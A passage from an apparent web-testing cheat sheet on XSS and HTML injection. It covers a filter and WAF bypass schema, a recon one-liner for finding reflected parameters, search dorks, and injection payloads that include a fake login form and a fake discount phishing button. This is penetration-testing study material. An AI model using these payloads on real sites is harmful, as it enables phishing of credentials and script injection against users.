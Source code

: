     // Outputs: A 'quote' is &lt;b&gt;bold&lt;/b&gt;
    echo htmlentities($str);

    // Outputs: A &#039;quote&#039; is &lt;b&gt;bold&lt;/b&gt;
    echo htmlentities($str, ENT_QUOTES);
    ?>
    ```

### XSS & HTMLI Testing Methodology

#### [XSS Payload Schema](https://brutelogic.com.br/blog/xss-payload-scheme/)

* Basic Schema `<tag handler=code>`
* Advanced Final Schema Try to make you Payloads inspired by this schema this will help you to bypass filters/Bypasses `extra1<tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3`
* [Filter Bypass Procedure](https://brutelogic.com.br/blog/filter-bypass-procedure/)

```python
#XSS vs WAF 
1) use <x & jump to event handler 
2) use onxxx=yyy & find number of x it accepts 
3) test them & change tag accordingly 
4) put js
```

#### 1) Find a reflection point

* use gau/waymore to grab all urls and pass them to kxss tool to test reflection `echo "domain.com" | gau | kxss | grep ">"`
* Do some Google or any seach engines dorking to find endpoints

```html
ext:php | ext:asp | ext:aspx | ext:jsp | ext:asp | ext:pl | ext:cfm | ext:py | ext:rb | ext:.html
```

* Navigate to website and try every single function and features with burp/ZAP logging the requests Testing every parameter for relection using Extenstions like "Reflector" or "Reflect"
* FUZZING parameters using "Param-Miner" and "Arjun and test their reflection

#### 2) Get HTML injection

* Payloads

```html
88<h1>POC for h0tak88r</h1>88  
%253Ch1%253EHTML%253C%252Fh1%253E  
<iframe id="if1" src="https://www.google.com"></iframe>  
&amp;lt;h1&amp;gt;HTML&amp;lt;/h1&amp;gt;  
&#60;h1&#62;HTML&#60;/h1&#62;  
---------  
<form method="GET">Username: <input type="text" name="username" value="" /> <br />Password: <input type="password" name="passwd" value="" /> <br /><input type="submit" name="submit" value="login" /></form>  
------------------  
<h1>!!</h1><br/><h2><p style=\"color:red;\">there is a new discount code of 80%. Take advantage of it now!</p><form action=\"https://url/\"><button type=\"submit\">Click Here</button></h2>
```
